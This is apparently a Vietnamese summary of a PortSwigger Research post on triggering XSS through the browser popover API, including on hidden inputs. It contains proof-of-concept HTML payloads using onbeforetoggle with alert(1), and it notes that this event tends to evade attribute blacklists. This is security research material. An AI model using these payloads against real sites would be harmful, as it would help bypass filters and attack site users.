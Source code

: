  ---
- **Published:** 11 July 2023 at 13:00 UTC
- **Updated:** 11 July 2023 at 13:00 UTC
- Source: [Exploiting XSS in hidden inputs and meta tags | PortSwigger Research](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags)

### Introduction
Tính năng mới của trình duyệt gọi là [popover](https://developer.chrome.com/blog/introducing-popover-api?hl=vi) cho phép đánh dấu một phần tử bằng thuộc tính `popover` để nó bị ẩn cho tới khi được bật bởi một trigger có `popovertarget` (ví dụ: `button`). Với popover bạn có thể dùng hai sự kiện liên quan là `onbeforetoggle` (chạy **trước** khi popover mở/đóng) và `ontoggle` (chạy **sau** khi trạng thái thay đổi).
Điều hay ho là `onbeforetoggle` thường khó có thể bị chặn trên blacklist thuộc tính
```html
<button popovertarget=x>Click me</button>
<xss onbeforetoggle=alert(1) popover id=x>XSS</xss>
```
### XSS in hidden input
Popover có thể hoạt động với input `hidden` -> Điều này quan trọng vì trước đây XSS nằm trong `input type="hidden"` khó khai thác và hầu hết event không kích hoạt được 
```html
<button popovertarget=x>Click me</button>
<input type="hidden" value="y" popover id=x onbeforetoggle=alert(1)>
```
Ta có thể thấy chúng ta cần 2 điểm để injection XSS. Thứ nhất sẽ là `<buton ...>` và điểm còn lại sẽ có thuộc tính trigger xss. 